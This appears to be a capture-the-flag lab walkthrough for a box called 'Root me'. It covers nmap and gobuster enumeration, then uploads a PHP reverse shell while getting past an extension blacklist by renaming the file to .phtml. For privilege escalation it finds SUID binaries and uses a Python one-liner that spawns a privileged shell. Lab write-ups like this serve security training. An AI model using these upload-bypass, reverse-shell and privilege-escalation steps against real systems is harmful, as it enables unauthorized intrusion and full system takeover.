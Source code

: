 # Root me

## Enumeration

```bash
export IP=10.10.2.228
nmap -A -v $IP -oN scans/nmap.log
```
![](images/image1.png)

### Enumerate web server with gobuster
```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -X php,txt,html,js
```
![](images/image2.png)

We can upload files to **/panel** and check them in **/uploads** <br>

Use php-reverse-shell.php

```bash
git clone https://github.com/ivan-sincek/php-reverse-shell.git
```
or

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

The website has a server side filter apparently using an extension blacklist and **.php** is banned... BUT ! **phtml** is not, fool the content filtering with this extension and get a shell by calling it from <url>http://10.10.2.228/uploads</url> <br>


### Privilege Escalation

```bash
find / type -f -perm -u=s  2>/dev/null
find / type -f -perm -g=s  2>/dev/null
```
![](images/image3.png)

From gfobins `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/image4.png)